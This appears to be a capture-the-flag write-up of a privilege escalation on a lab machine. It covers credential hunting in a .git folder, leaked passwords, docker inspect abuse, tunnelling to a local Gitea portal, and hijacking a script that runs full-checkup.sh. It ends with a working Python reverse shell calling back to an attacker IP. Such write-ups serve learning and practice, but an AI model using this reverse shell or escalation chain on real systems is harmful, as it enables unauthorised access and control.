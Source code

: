 First we look around a little bit, and first order of business is always looking for credentials - especially when we've noticed that SSH is open. A good place to look is in hidden folders like .git.
And love and behold. 
![[Pasted image 20230720204611.png]]
``jh1usoih2bkjaspwe92``

Lets get an encrypted connection and a much more stable shell connection:
![[Pasted image 20230717200052.png]]

Lets look at whether or not we can run something as root:
![[Pasted image 20230717201441.png]]

We know that the asterix means that it takes a parameter, lets look at it:
![[Pasted image 20230720205010.png]]

![[Pasted image 20230720205041.png]]

We have some interesting docker-containers running here, but we do not have rights to actually read the related files. In order to access the gitea-portal we have to create a tunnel, since it's restricted to localhost:
![[Pasted image 20230717220627.png]]
![[Pasted image 20230717220611.png]]
![[Pasted image 20230720205233.png]]

Its safe to assume that the creds to the administrator account is stored in the mysql db. We know that we have access to docker-inspect, so all we need to do is figure out how to get the contents of the database:
![[Pasted image 20230720202645.png]]
``yuiu1hoiu4i5ho1uh``


We log in using the creds, and we find the source-code of the script-files:
![[Pasted image 20230720205357.png]]

The interesting part is in the system-checkup.py file:
![[Pasted image 20230720205440.png]]
It executes a full-checkup.sh file in the current working directory, so all we really have to do is actually create a full-checkup.sh some place we have write-access and embed our shell into that:

```python
#!/usr/bin/python3
import socket
import subprocess
import os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.194",9999))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("sh")
```

![[Pasted image 20230720203758.png]]
